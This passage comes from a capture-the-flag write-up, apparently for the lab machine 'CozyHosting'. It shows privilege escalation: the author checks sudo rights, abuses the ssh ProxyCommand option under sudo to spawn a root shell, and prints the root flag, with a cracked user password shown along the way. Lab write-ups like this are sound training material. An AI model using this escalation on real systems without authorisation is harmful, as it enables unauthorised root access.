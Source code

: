 Success! Now that we have the user flag, we continue to wait for the admin hash to crack.

### Priv Esc

Using `sudo -l` we can check our options to escalate from the user `"josh"`:

```
josh@cozyhosting:~$ sudo -l
sudo -l
[sudo] password for josh: manchesterunited
Matching Defaults entries for josh on localhost:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
use_pty
User josh may run the following commands on localhost:
(root) /usr/bin/ssh *
```

It appears we can run ssh as root.

After many hours, a hint later, and doing more research I found something. Using the GTFObins.github.io website, if I want to spawn an interactive shell through the ProxyCommand option, I can do that.

I want to do that, so I use the command provided on the website:

```
josh@cozyhosting:~$ ssh -o ProxyCommand=';sh 0<&2 1>&2' x
ssh -o ProxyCommand=';sh 0<&2 1>&2' x
$ id
id
uid=1003(josh) gid=1003(josh) groups=1003(josh
```

Seems like I am missing something. I was not thinking and typed `ssh` instead of `sudo`. I also was missing the directory that `"josh"` has root access to use `ssh` through. Let's change it up:

```
josh@cozyhosting:~$ sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x
sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x
[sudo] password for josh: manchesterunited
# id
id
uid=0(root) gid=0(root) groups=0(root)
# python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@cozyhosting:/home/josh#
```

Success! Let's find the final flag:

```
root@cozyhosting:/home/josh# cd /root
cd /root
root@cozyhosting:~# ls
ls
root.txt
root@cozyhosting:~# cat root.txt
cat root.txt
148ad8c88d9154952e4957e6c0454ffc
```

Root flag = **148ad8c88d9154952e4957e6c0454ffc**




*This was a fun box. If the box was not retiring so soon, I would have spent more time on it and gotten fewer hints. Regardless I learned a lot and had a blast using BurpSuite and the `john` tool to crack the hash. Onward!